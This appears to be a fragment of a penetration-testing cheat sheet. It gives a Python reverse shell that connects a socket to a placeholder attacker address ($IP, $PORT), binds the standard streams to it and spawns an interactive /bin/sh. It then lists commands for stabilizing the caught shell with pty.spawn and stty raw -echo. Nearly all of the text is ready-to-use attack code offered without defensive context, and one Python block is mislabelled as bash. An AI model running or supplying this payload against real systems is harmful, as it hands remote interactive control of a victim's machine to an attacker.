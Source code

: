 
### Python

```bash
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("$IP", $PORT))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

subprocess.call(["/bin/sh", "-i"])
```

### Shell Stabilization

```bash
# Python
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Python 2
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
# Background shell (Ctrl+Z), then:
stty raw -echo; fg
reset
export TERM=xterm
```
